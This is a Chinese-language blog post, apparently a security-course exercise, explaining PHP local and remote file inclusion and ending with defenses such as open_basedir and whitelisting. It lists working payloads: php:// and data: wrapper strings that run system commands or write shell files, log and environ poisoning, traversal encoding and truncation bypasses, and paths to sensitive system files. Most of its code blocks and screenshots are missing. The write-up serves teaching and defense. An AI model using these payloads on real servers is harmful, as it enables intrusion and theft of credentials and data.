

web安全之文件包含漏洞
WEB 安全之文件包含漏洞学习实战
任务要求：
- 编写一个存在文件包含漏洞的页面
- 通过包含不同的文件进行getshell（具体哪些自己收集）
- 扩展学习：思考如何防御文件包含漏洞问题，将相关防御策略记录在报告中
0x01 什么是文件包含漏洞
服务器通过PHP的特性（函数）去包含任意文件时，由于要包含的这个文件来源过滤不严，从而可以去包含一个恶意文件，而我们可以构造这个恶意文件来达到攻击的目的。
0x02 漏洞产生的根本原因
在通过PHP的函数引入文件时，由于传入的文件名没有经过合理的校验，可以被用户控制，从而操作了预想之外的文件（即恶意文件） 。
示例代码
1 |
|
例如：
$_GET[‘filename’]参数，开发者没有经过严格的过滤，直接带入include函数，攻击者可以修改$_GET[‘filename’]的值，执行非预期的操作。
0x03 是不是只有PHP才有文件包含漏洞
很显然不是，只是文件包含漏洞比较常出现在PHP当中，而且文件包含漏洞在PHP Web Application中居多。几乎所有脚本语言都会提供文件包含的功能，只是在JSP、ASP、ASP.NET程序中却非常少见，甚至没有，这就是语言设计中的弊端。
0x04 编写文件包含页面
源码：
1 |
|
相关函数
- reuqire() 如果在包含的过程中有错，比如文件不存在等，则会直接退出，不执行后续语句。
- include() 如果出错的话，只会提出警告，会继续执行后续语句。
- require_once() 和 include_once() 功能与require() 和 include() 类似。但如果一个文件已经被包含过了，则 require_once() 和 include_once() 则不会再包含它，以避免函数重定义或变量重赋值等问题。
测试

在当前目录放入一个phpinfo.php文件，并修改其后缀为jpg，然后开始尝试利用文件包含漏洞，看看是否能将phpinfo.jpg成功解析为php


解析成功
被包含的文件无论是不是以.php结尾，服务器都会以php代码的方式区解析它。这个特点使得文件包含漏洞通常和文件上传漏洞结合使用。
通过目录遍历漏洞可以获取到其他文件的内容


0x05 文件包含分类
本地文件包含漏洞（LFI）
本地文件包含，顾名思义，指的是能打开并包含本地文件的漏洞。大部分情况下遇到的文件包含漏洞都是LFI，正如上面的例子演示的。
LFI利用条件
1 | 1.具有相关的文件包含函数。 |
ps: allow_url_fopen=off all_url_include=off均为off时，我尝试本地文件包含，还是可以正常包含
远程文件包含（RFI）
远程文件包含。是指能够包含远程服务器上的文件并执行。由于远程服务器上的文件是我们可控的，因此漏洞一旦存在危害性会很大。
RIF利用条件（同时开启）
1 | 1. allow_url_fopen=on 是否允许将URL（如http：//或ftp：//）作为文件处理。 默认打开 |
当allow_url_include= on ，就容易出现RIF
测试
php.ini中 allow_url_include默认是off

这个时候去包含我服务器上的文件，显示拒绝访问

将allow_url_include=On,可以正常访问


0x06 利用方法
一、php伪协议
1. php://input
利用条件
1 | 1. allow_url_include= On |
写入一句话

新建文件，并输入语句
1 | fputs(fopen("shell.php","w"),"<?php phpinfo();?>") |
fputs(file,string) 写入文件，将string中的字符串写入指定的file中
fopen(filename,mode)打开文件或者url，如果没有则创建

执行系统命令
1 | system('net user'); |

2. php://filter
利用条件：无
1 | 通过指定末尾的文件，可以读取经过base64编码后的文件源码，之后再base64解码一下。虽然不能直接获取shell等，但能读取敏感文件危害也是挺大的。 |
姿势
1 | 1.php?file=php://filter/read=convert.base64-encode/resource=789.php |

其他姿势
1 | 1.php?file=php://filter/convert.base64-encode/resource=789.php |
效果和上面一样，少了read关键字。在绕过waf时也许有用
3. phar://
利用条件
1 | 1. php版本大于等于 5.3.0 |
姿势
在当前目录瞎有个123.txt的文件，内容为，打包成压缩包123.zip，这里可以修改后缀为：jpg、png等

指定相对路径
1 | 1.php?file=phar://123.zip/123.txt |
或者绝对路径
1 | 1.php?file=phar://D:/PHPTutorial/WWW/wenjianbaohan/123.zip/123.txt |

4. zip://
利用条件
1 | 1. php版本大于等于5.3.0 |
姿势
构造zip包的方法同上面的phar，这里可以修改后缀为：jpg、png等
但使用zip协议，需要指定绝对路径，同时将#编码为%23，之后填上压缩包内的文件
1 | 1.php?file=zip://D:/PHPTutorial/WWW/wenjianbaohan/123.zip%23123.txt |
5. data:URI schema
利用条件
1 | 1. php版本大于等于5.2 |
姿势一：
1 | 1.php?file=data:text/plain, phpinfo() |

执行命令：
1 | 1.php?file=data:text/plain, system('ipconfig') |

姿势二
1 | 1.php?file=data:text/plain;base64,PD9waHAgc3lzdGVtKCd0eXBlIDEyMy50eHQnKTs/Pg== |
PD9waHAgc3lzdGVtKCd0eXBlIDEyMy50eHQnKTs/Pg== 解码后为
查看源代码即可看到文件源码

也可以直接执行系统命令


这种姿势可以在遇到waf时绕过
二、包含日志
1.访问日志
利用条件：
1 | 需要知道服务器日志的存储路径，且日志文件可读 |
姿势
很多时候，web服务器会将请求写入到日志文件中，比如说Apache。在用户发起请求时，会将请求写入access.log，当发生错误时将错误写入error.log。默认情况下，日志保存路径在 /var/log/apache2
试一下没写入一句话时候，包含日志文件

写入一句话

查看日志里，发现写入的一句话被编码了

利用burp抓包修改

修改后

重新包含日志文件，成功执行一句话

2. ssh-log
利用条件：需要知道ssh-log的位置，且可读, 感觉比较鸡肋，因为这个ssh的日志一般是没有权限读的
这里我用的centos7 所以ssh的日志在 /var/log/secure

姿势
用ssh连接：

查看日志：发现一句话已经插入进去了

尝试下能否包含成功：

3. 包含environ
利用条件
1 | 1.php以cgi方式运行，这样environ才会保持UA头。 |
姿势：
proc/self/environ中会保存user-agent头。如果在user-agent中插入php代码，则php代码会被写入到environ中。之后再包含它，即可。
测试（这里遇到了问题）
我尝试包含这个 proc/self/environ文件 ，没有结果，应该是没有可读权限

之后，我尝试用root chmod o+r environ 赋予它权限，但是却显示如下：

百度了半天，无果！有知道的老哥可以给我解惑下！
可以参考这个：
4. 包含fd
跟包含environ类似。
参考： LFI Cheat Sheet：/proc/self/environ LFI Method
三、包含上传文件
利用条件：
千变万化，不过至少得知道上传的文件在哪，叫啥名字。。。
姿势：
有时候文件上传遇到白名单检测，那么我们上次的图片马又无法配合解析漏洞，恰好这时候又有文件包含漏洞的话，那么就能利用组合拳getshell了。
四、绕过姿势
1. 指定前缀
代码：
1 |
|
这段代码指定了前缀，要是还像之前那样直接包含的话就会出错，比如

包含的文件名前缀被修改了，服务端实际拼接出来的路径是：/www/uploads/phpinfo.jpg 因为uploads目录下并没有phpinfo.jpg文件，所以失败。
绕过姿势：
1 | 1.php?file=../wenjianbaohan/phpinfo.jpg |
服务端实际路径为： ../uploads/../wenjianbaohan/phpinfo.jpg, 从而包含成功。
2. 编码绕过
服务器端常常会对于../等做一些过滤，可以用一些编码来进行绕过。下面这些总结来自《白帽子讲Web安全》
利用url编码：
../
1 | %2e%2e%2f |
..\
1 | %2e%2e%5c |
二次编码：
../
1 | %252e%252e%252f |
..\
1 | %252e%252e%255c |
容器/服务器的编码方式
../
1 | ..%c0%af |
注：Why does Directory traversal attack %C0%AF work?
..\
1 | ..%c1%9c |
3. 指定后缀
代码：
1 |
|
这段代码指定了包含文件的后缀，若是直接包含，出错

服务器实际的拼接路劲：/phpinfo.jpg/test.php
利用URL
1 | protocol :// hostname[:port] / path / [;parameters][?query]#fragment |
在远程文件包含漏洞（RFI）中，可以利用query或fragment来绕过后缀限制。
姿势一：query(?)
1 | 1.php?file=http://127.0.0.1/wenjianbaohan/phpinfo.jpg? |
服务器拼接的路径：1.php?file=http://127.0.0.1/wenjianbaohan/phpinfo.jpg?/test/test.php
问号后面的部分 /test/test.php，也就是指定的后缀被当作query从而被绕过
姿势二：fragment（#）
1 | 1.php?file=http://127.0.0.1/wenjianbaohan/phpinfo.jpg%23 |
服务器拼接的路径为：1.php?file=http://127.0.0.1/wenjianbaohan/phpinfo.jpg#/test/test.php
#号后面的部分/test/test.php，也就是指定的后缀被当作fragment从而被绕过。注意要把#号编码为%23
0字节截断
利用条件：
1 | 1.php版本 < php 5.3.4 |

当把magic_quotes_gpc打开，php版本依然是5.2.17时，再测试，结果%00被转义成了\0单体字符，不再具有截断功能。
原因是：当打开magic_quotes_gpc时，所有的 ‘（单引号），”（双引号），\（反斜线）和 NULL字符（%00）都会被自动加上一个反斜线进行转义。还有很多函数有类似的作用 如：addslashes()、mysql_escape_string()、mysql_real_escape_string()等
长度截断
利用条件：
1 | 1. php版本为5.3.4以下 |
目录字符串，在linux下4096字节时会达到最大值，在window下是256字节。只要不断的重复./
1 | 1.php?file=phpinfo.jpg././././././././././././不断重复 |
则后缀/test.php，在达到最大值后会被直接丢弃掉。

加上根目录路径一共为258个字节。所以需要的最少的.数为258 -
(1.php文件的路径长度即D:\PHPTutorial\WWW\wenjianbaohan+strlen(‘phpinfo.jpg’))


点号截断
利用条件
1 | 1. php版本<5.2.8 |

五、防御方案
1. 配置 open_basedir, 设置只允许访问的目录。
open_basedir的作用是限制在某个特定的目录下PHP能打开的文件

当配置了open_basedir后，测试下是否可以包含

发现已经不能包含了
PS 需要注意的是
1 | open_basedir的值是目录的前缀，因此如果设置如下： |
2. 做好文件的权限管理
3. 对危险字符进行过滤，如 ../ ~/ 等
4. 通过白名单策略，只运行包含运行指定的文件
1 |
|
直接将文件写死，只要不是白名单里的这几个文件，一律不执行，很容易就避免了漏洞
六、常见敏感信息路径
1. windows系统
1 | c:\boot.ini // 查看系统版本 |
2. Linux/Unix系统
1 | /etc/passwd // 账户信息 |
3. Apache
1 | # 配置文件路径 |
4. IIS
1 | # 配置文件 |
5. MySQL
1 | # 配置文件 |
6. phpMyAdmin
1 | # 配置文件 |
7. XAMPP 建站
1 | # 网站默认路径 |
8. phpStudy 建站
1 | # 根目录 |
9. 日志默认路径
1 | # apache+Linux日志默认路径 |
转载请注明来源，欢迎对文章中的引用来源进行考证，欢迎指出任何有错误或不够清晰的表达。可以在下面评论区评论，也可以邮件至 jaytp@qq.com
文章标题:web安全之文件包含漏洞
本文作者:yshdxm
发布时间:2020-03-04, 15:35:11
最后更新:2020-03-04, 15:56:34
原始链接:http://yoursite.com/2020/03/04/web%E5%AE%89%E5%85%A8%E4%B9%8B%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E/版权声明: "署名-非商用-相同方式共享 4.0" 转载请保留原文链接及作者。